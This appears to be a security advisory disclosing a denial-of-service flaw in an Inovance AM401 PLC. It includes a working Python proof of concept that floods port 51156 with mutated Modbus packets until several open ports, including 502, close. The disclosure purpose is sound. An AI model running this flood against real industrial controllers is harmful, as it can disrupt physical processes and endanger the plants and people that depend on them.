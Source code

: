 # Summary
There is a denial of service vulnerability in port 51156 of Inovance AM401 PLC.An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

This "crash" did not cause the device to crash, but closed the originally open port.
# Details
Connectivity test of the device:![image](https://github.com/user-attachments/assets/755948eb-132c-4702-8a8d-3ca016432eb2)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/168bdc1c-7cf9-4082-92be-94032bd260fe)
You can see that port 51156 is open.

Then we run the script:
![image](https://github.com/user-attachments/assets/47569e14-ec7a-4bd9-aa48-4a8e615524bc)

After a while, we scan the port with Nmap and find:
![image](https://github.com/user-attachments/assets/f8bcc779-cc85-4519-ad78-01aa6efbda4b)

Of the **10** ports that were originally open, only **6** are left now, and **mbap port 502** has also been closed.

# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def Change(data: bytes):
    l = len(data)
    import random
    pos = random.randint(0, l - 1)
    Fs = [F1, F2, F3, F4]
    f = random.randint(0, 3)
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)

MAX_LEN = 65536
cur = 0
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(("192.168.1.88",51156))
            s.send(now)
            s.close()
            import time
            # time.sleep(0.1)
        except:
            print()
            print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
            
    import time
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)
